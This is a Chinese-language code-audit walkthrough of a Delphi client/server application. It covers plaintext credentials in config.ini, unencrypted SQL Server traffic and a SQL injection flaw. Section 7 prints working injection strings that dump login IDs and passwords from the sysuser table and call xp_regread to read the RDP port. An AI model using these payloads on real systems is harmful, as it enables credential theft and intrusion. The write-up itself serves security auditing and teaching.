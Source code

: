 
## Delphi 代码审计 -- 项目实战1

### 1、Function & Procedure   

  Delphi 把操作数据的方法分成了两种，一种是 function，另一种是 procedure，大致理解为“函数”和“过程”。
 Procedure 类似 C 语言中的无返回值函数，即 VOID。而 Function 就是 C 语言中的有返回值函数，即没有 Void。  

![](media/21e65a213b1774c59d03619cb69683b4.jpg)

### 2、连接数据库  

程序分为两种连接数据库模式：  

![](media/080d91e0679721483224a0d29b818c61.jpg)

无论是本地模式，还是联网模式，都是读取，当前路径的 config.ini 配置文件：  
<font color=red> （导致敏感信息暴漏，可直连服务器） </font>

![](media/00335e7c032c10d239df4a1c64a1543e.jpg)

继续跟数据库连接：配合SQL Server数据库，直接带入，可以判断出为明文存储。  

![](media/f0281f9b417bfcff8962a51f84f410b3.jpg)

### 3、config.ini

config.ini 配置如下：  

![](media/7a7ab42ea759160c062a56d2c4f1cc88.jpg)

### 4、C/S 交互过程

基于TCP通信，SQL Server通信构架大致如下：
<font color=red> （可导致通信过程中抓取明文执行） </font>

![](media/109415886494f35eb1abb0dc65e1ea4a.jpg)

### 5、SQL 注入

代入执行：<font color=red>（导致可拼接sql语句，查询任意语句或者执行命令）</font>

![](media/f2d2fa55ca7000f6ac4e2a7f35096223.jpg)  

![](media/9c7cde20e5b9f00367d3e9e6742795bd.jpg)

部分语句其中如下：
```sql
select distinct memberid,receivecompany
from weigh where receivecompany is not null and receivecompany like ''%'+xxxxxx+'%''
```
### 6、Client  

软件呈现如下：  

![](media/fb920104b40786b665ab4f54efcc7f45.jpg)

### 7、构造 SQL 语句

对应收货单位编号，以及收货单位名称。分别为：`memberid`, `receivecompany`。闭合语句为：  

```sql
2' ; select loginid as memberid , password as receivecompany from sysuser --
```  

![](media/3fe1f0dff1f17524e03aa152e59172b2.jpg)

抓取返回如图：  

* 得到admin 账号以及密码。  

![](media/0832ba025e9189a7099cd2e4dc368152.jpg)

* 构造读取远程桌面端口号：得到远程服务器端口号  

```sql
2' ; EXEC master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp',
'PortNumber' --
```  

### 8、获取缓冲区内容

copy 获取缓冲区内容：<font color=red> （导致可从服务器端构造代码）</font>  

![](media/12eae8dd1c87a5e9f14244f5c7b4eb70.jpg)

copy 用法如下：

> copy（a,b,c);  
>a：就是copy源，就是一个字符串，表示你将要从a里copy一些东西;  
>b：从a中的第b位开始copy（包含第11位）;  
>c：copy从第b位开始后的c个字符，  
>exp： m:=‘the test fuck'  
>      s：=copy（m,2,2）； //s值为‘he’

当超出范围，会发生异常错误。实例中，从服务器数据库获取数据后进行 copy。

软件登陆部分代码如下：<font color=red>（导致可自动化跑 loginid。）</font>    

![](media/24734f4bbaa74f862cfbcac3b53faf83.jpg)

多次尝试错误处理如下：退出软件，并且重新开始计算。   
 
![](media/4ec9526c01770e2d5f17c9cc9a76b26b.jpg)



<p align="right">--By  Micropoor </p>
